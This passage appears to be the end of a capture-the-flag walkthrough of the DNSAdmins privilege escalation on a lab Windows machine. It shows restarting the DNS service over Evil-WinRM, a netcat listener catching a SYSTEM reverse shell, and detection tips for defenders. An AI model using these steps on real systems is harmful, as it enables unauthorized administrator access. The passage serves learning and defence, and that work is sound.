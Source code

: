 ```ruby
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3516
        FLAGS              :
```
And we got administrator shell
```ruby
❯ sudo nc -nlvp 4443
[sudo] password for astrah: 
listening on [any] 4443 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.169] 53785
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```


**For the BlueTeamers there are some ways to detect or prevent dnsadmin privesc**
   - To prevent the attack, audit ACL for write privilege to DNS server object and membership of DNSAdmins group.

    
-  Indicators like DNS service restart and couple of log entries:

    DNS Server Log Event ID 150 for failure and 770 for success

  
- Monitoring changes to HKLM:\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll will also help.



I Hope you found this helpful
